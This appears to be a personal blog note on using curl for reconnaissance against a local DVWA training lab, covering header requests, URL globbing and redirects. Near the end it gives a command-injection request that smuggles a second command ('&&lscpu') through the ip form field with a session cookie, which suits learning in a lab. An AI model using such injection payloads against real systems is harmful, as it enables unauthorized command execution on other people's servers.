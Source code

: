 ```yaml
---
title: "Curlacking"
date: 2025-01-09T16:06:04+01:00
draft: false
---
```


Launched 1998, curl is a tool for transferring data from or to a server using URLs, with over 230 command line options. This briefly shows some of the ways to use it for reconnosince and 



curl -I http://192.168.10.123/dvwa/
	-I just returns the head

![[Screenshot 2025-01-09 at 3.56.45 pm.png]]

curl https://example.com/[1-9].html


curl https://example.com/[1-20:3].html - o save_#1.html (will save )


curl --verbose https://example.com/[a-z].html #(very important for troubleshooting)

curl  -L http://192.168.10.123/dvwa/vulnerabilities/fi/?page=include.php
	-L will show the redirect

Without:![[Screenshot 2025-01-09 at 5.24.52 pm.png]]

With:
![[Screenshot 2025-01-09 at 5.25.33 pm.png]]
man 
curl -u user:password
![[Screenshot 2025-01-23 at 4.59.52 pm.png]]


After quite a few attempts and a small bit of AI help: 
	curl -vv -b "security=low; PHPSESSID=ungj5i2cirq9jvfrsjju273l53" --data "ip=192.168.10.123%26%26lscpu&Submit=Submit" http://192.168.10.123/dvwa/vulnerabilities/exec/

Lets break this down... 

- curl -----(http swiss army knife)
- -vv -----very verbose
- -b ----set-cookie
- "security=low; PHPSESSID=ungj5i2cirq9jvfrsjju273l53" ---- cookie
- --data ------ includes url-encoded injection payload
- "ip=192.168.10.123%26%26lscpu&Submit=Submit" ------ payload
- http://192.168.10.123/dvwa/vulnerabilities/exec/


![[Screenshot 2025-01-24 at 7.28.53 am.png]]

![[Screenshot 2025-01-24 at 7.28.13 am.png]]

Resources:

https://www.youtube.com/watch?v=I6id1Y0YuNk
